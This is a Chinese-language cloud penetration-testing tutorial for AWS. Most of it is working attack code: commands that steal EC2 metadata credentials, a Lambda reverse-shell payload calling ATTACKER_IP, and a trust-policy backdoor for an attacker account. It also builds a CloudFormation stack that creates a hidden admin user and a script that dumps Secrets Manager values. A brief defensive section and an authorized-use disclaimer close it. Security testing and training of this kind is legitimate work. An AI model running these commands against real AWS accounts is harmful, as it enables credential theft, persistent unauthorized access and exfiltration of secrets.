




## 前言

在云渗透测试中，EC2元数据服务（IMDS）是攻击者获取初始凭证的跳板。通过IMDS窃取的IAM角色临时凭证，结合权限枚举与提权技术，可借助aws_consoler生成AWS管理控制台会话，完成从"有Shell"到"有控制台"的完整攻击链。

**免责声明**：本文所述技术仅用于授权的安全评估与学术研究，任何未经授权的入侵行为均属违法。



## 一、EC2实例元数据服务（IMDS）

### 1.1 概述

IMDS运行在链路本地地址`169.254.169.254`，实例内任何进程均可访问，外部不可达。关键端点：`/latest/meta-data/iam/security-credentials/`返回角色名列表，`/latest/meta-data/iam/security-credentials/<role>`返回完整临时凭证（含AccessKeyId、SecretAccessKey、Token、Expiration）。`/latest/user-data/`则常含启动脚本中的明文凭据。

### 1.2 IMDSv1：无认证访问

IMDSv1无需认证，直接GET即可获取数据：

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
ROLE="example-role"
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/${ROLE}
```

**Python递归获取凭证脚本：**

```python
import requests
BASE = "http://169.254.169.254/latest/meta-data/"
def fetch(path=""):
    url = BASE + path
    resp = requests.get(url, timeout=5)
    if resp.status_code != 200: return None
    if resp.text.endswith("/"):
        return {k: fetch(path+k) for k in resp.text.splitlines() if k}
    return resp.text
def get_creds():
    roles = requests.get(BASE+"iam/security-credentials/").text.strip()
    if roles:
        return requests.get(BASE+f"iam/security-credentials/{roles.splitlines()[0]}").json()
```

### 1.3 IMDSv2：Token防护

IMDSv2要求先PUT获取Token（最大TTL 21600s），后续请求携带该Token。v1可直接GET，v2需PUT+GET两步，主要提升SSRF攻击门槛，对已获Shell场景无效。

```bash
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

v2绕过场景：反向代理转发PUT、HTTP走私、容器逃逸宿主机v1兼容、VPC内Lambda。User Data也可直接读取：`curl http://169.254.169.254/latest/user-data/`（常见泄露：AWS_ACCESS_KEY_ID、DB_PASSWORD、私有仓库Token）。

## 二、STS临时凭证与AWS CLI配置

IMDS返回的STS凭证（ASIA开头、40字符密钥、1-12小时有效）写入credentials文件后即可使用：

```bash
cat >> ~/.aws/credentials << EOF
[ec2-pwn]
aws_access_key_id = ASIAXXXXXXXX
aws_secret_access_key = xxxxxxxxxxxxxx
aws_session_token = IQoJb3JpZ2luX2Vj...
EOF
aws sts get-caller-identity --profile ec2-pwn  # 确认身份
```

## 三、IAM权限枚举

### 3.1 基础命令

```bash
aws iam list-roles --profile ec2-pwn
aws iam list-users --profile ec2-pwn
aws iam list-policies --profile ec2-pwn
aws iam list-groups --profile ec2-pwn
```

### 3.2 策略深度展开

```bash
ROLE="EC2-Admin-Role"
aws iam list-attached-role-policies --role-name ${ROLE}
aws iam list-role-policies --role-name ${ROLE}
aws iam get-role-policy --role-name ${ROLE} --policy-name "InlineName"
# 读取托管策略默认版本
POLICY_ARN=$(aws iam list-attached-role-policies --role-name ${ROLE} \
  --query 'AttachedPolicies[0].PolicyArn' --output text)
VERSION=$(aws iam get-policy --policy-arn ${POLICY_ARN} \
  --query 'Policy.DefaultVersionId' --output text)
aws iam get-policy-version --policy-arn ${POLICY_ARN} --version-id ${VERSION}
```

### 3.3 自动化工具

```bash
# Pacu（AWS渗透框架 - iam__enum_permissions / iam__privesc_scan）
git clone https://github.com/RhinoSecurityLabs/pacu
# enumerate-iam（快速暴力枚举）
python3 enumerate-iam.py --access-key ASIAXX --secret-key XX --session-token XX
# ScoutSuite（多云安全审计）
scout aws --profile ec2-pwn
```

## 四、IAM权限提升

### 4.1 PassRole + Lambda执行（核心提权路径）

同时拥有`iam:PassRole`和`lambda:CreateFunction`时，可将高权限角色传递给Lambda函数作为执行角色，以该角色运行任意代码。



**Lambda Payload与利用**：

```python
import socket, subprocess, os, boto3
def lambda_handler(event, context):
    client = boto3.client('sts')
    s = socket.socket(); s.connect(("ATTACKER_IP", 4444))
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2)
    subprocess.call(["/bin/sh","-i"])
```

```bash
zip revshell.zip revshell.py
aws lambda create-function --function-name "backup-scheduler" \
  --runtime python3.12 --role arn:aws:iam::123456789012:role/Admin-Role \
  --handler revshell.lambda_handler --zip-file fileb://revshell.zip --timeout 120
aws lambda invoke --function-name backup-scheduler /tmp/out.txt
aws lambda delete-function --function-name backup-scheduler
```

### 4.2 UpdateAssumeRolePolicy

修改角色信任策略，添加攻击者AWS账号为可信实体后代入该角色：

```bash
cat > trust.json << 'EOF'
{"Version":"2012-10-17","Statement":[{"Effect":"Allow",
 "Principal":{"AWS":"arn:aws:iam::EVIL_ACCOUNT:root"},
 "Action":"sts:AssumeRole"}]}
EOF
aws iam update-assume-role-policy \
  --role-name "TargetRole" --policy-document file://trust.json
aws sts assume-role --role-arn arn:aws:iam::VICTIM:role/TargetRole \
  --role-session-name pwned
```

### 4.3 CreateAccessKey + CreateLoginProfile

```bash
aws iam create-access-key --user-name "devops"
aws iam create-login-profile --user-name "devops" \
  --password "Pwned@2025!Aug" --no-password-reset-required
# 登录: https://VICTIM_ACCOUNT.signin.aws.amazon.com/console
```

### 4.4 CloudFormation资源注入

通过`cloudformation:CreateStack`创建含管理员IAM用户的堆栈：

```yaml
AWSTemplateFormatVersion: "2010-09-09"
Resources:
  BackdoorUser:
    Type: AWS::IAM::User
    Properties:
      UserName: "cfn-audit"
      LoginProfile: {Password: "Pwn3d!!Aug2025", PasswordResetRequired: false}
      Policies:
        - PolicyName: "FullAdmin"
          PolicyDocument:
            Version: "2012-10-17"
            Statement: [{Effect: Allow, Action: "*", Resource: "*"}]
  BackdoorKey:
    Type: AWS::IAM::AccessKey
    Properties: {UserName: !Ref BackdoorUser}
Outputs:
  AccessKey: {Value: !Ref BackdoorKey}
  SecretKey: {Value: !GetAtt BackdoorKey.SecretAccessKey}
```

```bash
aws cloudformation create-stack --stack-name "compliance-audit" \
  --template-body file://malicious-stack.yaml --capabilities CAPABILITY_NAMED_IAM
aws cloudformation describe-stacks --stack-name "compliance-audit" \
  --query 'Stacks[0].Outputs'
```

### 4.5 Secrets Manager信息窃取

```bash
aws secretsmanager list-secrets
aws secretsmanager get-secret-value \
  --secret-id "prod/mysql/credentials" --query 'SecretString' --output text
```

**批量导出脚本**：

```python
import boto3
client = boto3.Session(profile_name="ec2-pwn").client("secretsmanager")
for page in client.get_paginator("list_secrets").paginate():
    for s in page.get("SecretList", []):
        try:
            v = client.get_secret_value(SecretId=s["Name"])["SecretString"]
            print(f"[+] {s['Name']}: {v}")
        except Exception as e:
            print(f"[-] {s['Name']}: {e}")
```

## 五、aws_consoler：生成控制台访问

### 5.1 原理与流程

aws_consoler利用AWS Federation端点将STS凭证转为管理控制台URL：调用`getSigninToken`获取令牌 → 拼接Federation登录URL → 浏览器打开即认证通过，获得完整Web控制台会话。



### 5.2 使用方式

```bash
pip3 install aws-consoler
aws_consoler --profile ec2-pwn
aws_consoler --access-key ASIAXXXX --secret-key xxxx --session-token xxxx
aws_consoler --profile ec2-pwn --service s3 --region us-east-1
```

### 5.3 手动构造（无工具环境）

```python
import requests, json
def gen_console(ak, sk, token):
    s = json.dumps({"sessionId":ak,"sessionKey":sk,"sessionToken":token})
    resp = requests.get("https://signin.aws.amazon.com/federation",
        params={"Action":"getSigninToken","Session":s})
    signin = resp.json()["SigninToken"]
    return f"https://signin.aws.amazon.com/federation?Action=login&" \
           f"Issuer=manual&Destination=https://console.aws.amazon.com&" \
           f"SigninToken={signin}"
```

## 六、完整攻击链



攻击时间线：T+0min SSRF发现 → T+5min 凭证窃取 → T+15min 发现PassRole → T+25min Lambda提权 → T+45min Secrets导出 → T+60min 持久化+aws_consoler控制台登录。

## 七、防御检测

### 7.1 强制IMDSv2

```bash
aws ec2 modify-instance-metadata-options \
  --instance-id i-0123456789abcdef0 \
  --http-tokens required --http-endpoint enabled
```

### 7.2 SCP组织策略限制

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Deny",
    "Action": ["iam:PassRole","iam:CreateUser","iam:CreateAccessKey",
               "iam:UpdateAssumeRolePolicy","iam:AttachRolePolicy"],
    "Resource": "*",
    "Condition": {"Bool": {"aws:ViaAWSService": "false"}}
  }]
}
```

### 7.3 CloudTrail关键检测

| 检测项 | CloudTrail事件 | 风险 |
|--------|---------------|------|
| 信任策略变更 | `UpdateAssumeRolePolicy` | 极高 |
| PassRole滥用 | `PassRole`+`CreateFunction`/`CreateStack` | 高 |
| 创建长期凭证 | `CreateAccessKey`/`CreateLoginProfile` | 极高 |
| Federation登录 | `GetSigninToken`异常源IP | 高 |
| 批量读Secrets | `GetSecretValue`高频 | 高 |

## 八、总结

1. IMDS是云上初始信息源：v1无认证，v2仅提升SSRF门槛，实例内代码执行即可窃取角色凭证。
2. STS临时凭证足够枚举与提权，PassRole + Lambda是核心提权路径。
3. CloudFormation/Secrets Manager/Lambda组合利用构成完整的权限提升与数据窃取链。
4. 持久化依赖CreateAccessKey、CreateLoginProfile、UpdateAssumeRolePolicy。
5. aws_consoler将API凭证转为浏览器控制台，大幅降低后续操作门槛。

> **延伸阅读**：RhinoSecurityLabs - "AWS IAM Privilege Escalation Methods"、HackingThe.cloud - "AWS Pentesting Guide"、AWS Security Blog - "Defense in depth for EC2 metadata service"
